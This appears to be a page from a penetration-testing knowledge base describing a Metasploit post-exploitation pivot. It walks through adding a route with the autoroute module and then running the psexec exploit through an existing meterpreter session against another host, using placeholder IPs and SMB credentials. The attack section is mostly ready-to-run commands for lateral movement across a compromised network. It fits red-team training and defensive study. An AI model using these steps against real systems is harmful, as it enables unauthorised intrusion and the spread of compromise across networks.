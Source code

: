 ```yaml
---
author(s):
  - Userware
tags:
  - post-exploitation
  - pivot
  - port-forward
  - metasploit-framework
  - cross-platform
credits:
  - Matthew Toussain
---
```

# Metasploit

> [!NOTE]
> This can work even if the compromised system is not a Windows operating system as long the session type is `meterpreter` payload.

Make the `meterpreter` connection act as a **p2p (peer-to-peer)** without requiring to use SMB namepipe or bind shell callbacks. Assuming you've gained a initial access, add a rule to route traffic.

```
meterpreter > run post/multi/manage/autoroute subnet=<subnet> netmask=/24
```

In this demonstration, we'll be using #psexec to exploit the target to pivot off from the compromised machine. Set `ReverseListenerComm` with a session ID. This will tunnel the `meterpreter` session.

```
meterpreter > background

msf exploit(windows/smb/psexec) > set ReverseListenerComm <session_ID>
```

Then set the IP address and port of the computer that's compromised.

```
msf exploit(windows/smb/psexec) > set lhost <pivot_IP>

msf exploit(windows/smb/psexec) > set lport <pivot_PORT>
```

Exploit the target.

```
msf exploit(windows/smb/psexec) > run rhosts=<target_IP> smbuser=<username> smbpass=<password>
```

You can list the `meterpreter` sessions to see that it is pivoting off from a compromised system.

```
meterpreter > background

msf exploit(windows/smb/psexec) > sessions -l
```

---
## References

### Backlinks

- [[06 - Tactics & Techniques & Procedures (TTPs) Phases/F - Post Exploitation/0x05 - Pivot/Cross Platform/SOCKS Proxy/C2 Frameworks/Metasploit]]

### Matthew Toussain

- [Matthew Toussain: Tactics Tuesday | Mass Meterpreter Single Channel](https://www.youtube.com/watch?v=IsrWJL0gIlg)